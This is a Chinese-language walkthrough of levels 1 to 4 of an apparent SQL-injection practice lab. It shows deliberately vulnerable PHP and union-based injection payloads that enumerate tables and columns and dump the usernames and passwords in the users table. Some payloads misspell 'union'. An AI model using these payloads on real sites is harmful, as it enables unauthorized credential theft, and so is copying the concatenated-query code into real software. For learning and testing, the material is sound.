### 第一关

-源码：

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  
error_reporting(0);  
// take the variables
if(isset($_GET['id']))  
{  
$id=$_GET['id'];  
//logging the connection parameters to a file for analysis.  
$fp=fopen('result.txt','a');  
fwrite($fp,'ID:'.$id."\n");  
fclose($fp);  

// connectivity   

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);  

    if($row)  
    {  
    echo "<font size='5' color= '#99FF00'>";  
    echo 'Your Login name:'. $row['username'];  
    echo "<br>";  
    echo 'Your Password:' .$row['password'];  
    echo "</font>";  
    }  
    else   
{  
    echo '<font color= "#FFFF00">';  
    print_r(mysql_error());  
    echo "</font>";    
    }  
}  
    else { echo "Please input the ID as parameter with numeric value";}  

?>

---

-获取GET参数

<?php
 if(isset($_GET['id']))
{
$id=$_GET['id'];
?>

if(isset($_GET['id']))  
{  
$id=$_GET['id'];

---

-SQL语句

### **`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`**

- **作用**：构建SQL查询字符串
- **关键点**：
  - 从`users`表中选择所有字段
  - 条件：`id`字段值等于变量`$id`的值（直接字符串拼接）
  - `LIMIT 0,1`：限制返回结果的第一条记录（等效于`LIMIT 1`）

---

### ** `$result=mysql_query($sql);`**

- **作用**：执行SQL查询
- **返回值**：
  - 成功时返回`resource`类型的结果集
  - 失败时返回`false`
- **注意**：无错误处理机制，失败时不会自动中断脚本

---

### ** `$row = mysql_fetch_array($result);`**

- **作用**：从结果集中提取一行数据
- **返回格式**：
  - 默认返回**数字索引+关联索引**的混合数组（如`$row[0]`和`$row['id']`均可访问）

--- 

---

#### 注入过程

##### 判断类型

    --数字型

        ?id=1/0

        ?id=1/1

        如果反馈没有变化为字符型，否则是数字型。

    --  ?id=1‘//标签没有闭合会报错

        ?id=1''//标签闭合回显正常 

        ?id=1’+and+'1'='1（或?id=1' and 1=1 -- qwe）//如果又回显示则正确显示 

        ?id=1'+and+'1'='2（或?id=1' and 1=2 -- qwe）//语句为假显示有差别    

---

##### 爆字段（order by或group by）

    --?id=1' order by 1 -- qwe

    --?id=1' order by 2 -- qwe

    --?id=1' order by 3 -- qwe



    --?id=1' order by 4 -- qwe



        可以看出是3个字段

或者group by

      --?id=1' group by 1 -- qwe

      --?id=1' group by 2 -- qwe

      --?id=1' group by 3 -- qwe

      --?id=1' group by 4 -- qwe

---

##### 判断现错位

       --?id=1' union select 1,2,3 -- qwe



    **没有出现想要的是因为?id=1查询到了数据覆盖了后面union select 1,2,3**

       --?id=-1' union select 1,2,3 -- qwe



---

##### 查询数据库

    --?id=-1' union select 1,database(),3 -- qwe



---

##### 查询表名

    --?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema='security' -- qwe 默认查询第一条

    --?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 1,1 -- qwe 查询第二条

    --?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 2,1 -- qwe 查询第三条



group_concat()查询表名

    --?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' -- qwe



---

##### 查询users表中的列名

    --?id=-1' union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='users' limit 2,1 -- qwe

或

    --?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' -- qwe



---

##### 获取数据

    --?id=-1' union select 1,id,password from users -- qwe



```SQL
?id=-1' union select 1,2,(select group_concat(id,'~',username,'~',password) from security.users)-- qwe
?id=-1' union select 1,(select group_concat(id,':',username,':',password)),3 from security.users-- qwe
```



### 第二关

#### 源码

`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";与第一关的区别在于此句`

#### 判断类型

    --?id=1/0


    --?id=1/1



#### 判断字段

 --?id=1 order by 3

 --?id=1 order by 4



    或

    --?id=1 group by 1,2,3

    --?id=1 group by 1,2,3,4



#### 判断显错位

    --?id=-1 union select 1,2,3



#### 查询数据库名

    --?id=-1 union select 1,2,database()

#### 查询表名

    --?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database()

    --?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'

#### 获取users表中的列名

    --?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'

#### 获取数据

    --?id=-1 union select 1,2,(select group_concat(id,'/',username,'/',password,'/')) from security.users

    或

    --?id=-1 union select 1,2,group_concat(id,'/',username,'/',password,'/') from security.users

### 第三关

源码

`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1"与第一关唯一区别在于闭合方式为('');`

#### 完善闭合

    --?id=1') -- qwe

#### 判断字段

    --?id=1') order by 4 -- qwe

或

    --?id=1') group by 1,2,3,4 -- qwe

#### 判断显错位

    --?id=-1') union select 1,2,3 -- qwe

#### 查询数据库名

    --?id=-1') nuion select 1,2,database() -- qwe

#### 查询表名

    --?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security' -- qwe     

#### 查询列名

    --?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' -- qwe

#### 查询数据

    --?id=-1') union select 1,2,group_concat(id,'/',username,'/',password,'/') from security.users -- qwe

### 第四关

源码不同之处

    `$id = '"' . $id . '"';  
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";`

    -闭合就是(" ")

完善闭合

    --?id=1") -- qwe

#### 判断字段

    --?id=1") order by 4 -- qwe

或

    --?id=1") group by 1,2,3,4 -- qwe

#### 判断显错位

    --?id=-1") union select 1,2,3 -- qwe

#### 查询数据库名

    --?id=-1") nuion select 1,2,database() -- qwe

#### 查询表名

    --?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security' -- qwe

#### 查询列名

    --?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' -- qwe

#### 查询数据

    --?id=-1") union select 1,2,group_concat(id,'/',username,'/',password,'/') from security.users -- qwe

# 
